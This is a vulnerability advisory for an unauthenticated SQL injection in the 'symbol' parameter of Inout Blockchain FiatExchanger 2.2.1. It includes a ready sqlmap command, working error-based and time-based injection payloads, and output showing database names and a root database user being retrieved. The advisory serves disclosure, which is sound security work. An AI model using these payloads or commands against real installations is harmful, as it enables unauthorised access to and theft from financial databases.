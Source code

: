 # Information
```
Vulnerability Name  : Remote Blind SQL Injections in Inout Blockchain FiatExchanger
Product             : Inout Blockchain FiatExchanger
version             : 2.2.1
Date                : 2022-05-21
Vendor Site         : https://www.inoutscripts.com/products/inout-blockchain-fiatexchanger/
Exploit Detail      : https://github.com/bigb0x/CVEs/blob/main/Inout-Blockchain-FiatExchanger-221-sqli.md
CVE-Number          : In Progess
Exploit Author      : Mohamed N. Ali @MohamedNab1l
```
<br>

# Description
<br>

SQL injection attack has been discovered in Blockchain FiatExchanger v2.2.1 platform. This will allow remote non-authenticated attackers to inject SQL code. This could result in full information disclosure.
<br>

## Vulnerable Parameter: symbol (GET)

<br>

Vulnerability File:
```sql
/application/third_party/Chart/TradingView/chart_content/master.php line 130
```
<br>

### Sqlmap command:
```sql
python sqlmap.py -u "http://http://vulnerable-host.com/application/third_party/Chart/TradingView/chart_content/master.php/history?from=1652675947&resolution=5&symbol=BTC-BCH" -p symbol --dbms=MySQL --banner --random-agent --current-db --dbs --current-user
```
<br>

### output:
```sql
[20:05:54] [INFO] fetched random HTTP User-Agent header value 'Opera/9.20(Windows NT 5.1; U; en)' from file '/root/sqlmap/data/txt/user-agents.txt'
[20:05:55] [INFO] testing connection to the target URL
[20:05:55] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:

Parameter: symbol (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: from=1652675947&resolution=5&symbol=BTC-BCH' AND (SELECT 1746 FROM(SELECT COUNT(*),CONCAT(0x71707a6b71,(SELECT (ELT(1746=1746,1))),0x7171627671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'hIKU'='hIKU

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: from=1652675947&resolution=5&symbol=BTC-BCH' AND (SELECT 4566 FROM (SELECT(SLEEP(5)))kVcR) AND 'JGrB'='JGrB

[20:05:55] [INFO] testing MySQL
[20:05:56] [INFO] confirming MySQL
[20:05:57] [INFO] the back-end DBMS is MySQL
[20:05:57] [INFO] fetching banner
[20:05:57] [INFO] resumed: '5.6.50'
web application technology: PHP 7.0.33
back-end DBMS: MySQL >= 5.0.0
banner: '5.6.50'
[20:05:57] [INFO] fetching current user
[20:05:57] [INFO] retrieved: 'root@localhost'
current user: 'root@localhost'
[20:05:57] [INFO] fetching current database
[20:05:57] [INFO] resumed: 'inout_blockchain_fiatexchanger_db'
current database: 'inout_blockchain_fiatexchanger_db'
[20:05:57] [INFO] fetching database names
[20:05:57] [INFO] resumed: 'information_schema'
[20:05:57] [INFO] resumed: 'inout_blockchain_fiatexchanger_addons_db'
[20:05:57] [INFO] resumed: 'inout_blockchain_fiatexchanger_cryptotrading_db'
[20:05:57] [INFO] resumed: 'inout_blockchain_fiatexchanger_db'
[20:05:57] [INFO] resumed: 'mysql'
[20:05:57] [INFO] resumed: 'performance_schema'
available databases [6]:
[*] information_schema
[*] inout_blockchain_fiatexchanger_addons_db
[*] inout_blockchain_fiatexchanger_cryptotrading_db
[*] inout_blockchain_fiatexchanger_db
[*] mysql
[*] performance_schema

```
<br>
<img src="./resources/Blockchain-FiatExchanger-221-sqlmap1.png">
<br>
<img src="./resources/Blockchain-FiatExchanger-221-sqlmap2.png">
<br>


## Timeline
```
2022-05-03: Discovered the bug
2022-05-03: Reported to vendor
2022-05-21: Advisory published
```

<br>

## Discovered by
```
Mohamed N. Ali
@MohamedNab1l
ali.mohamed[at]gmail.com

```
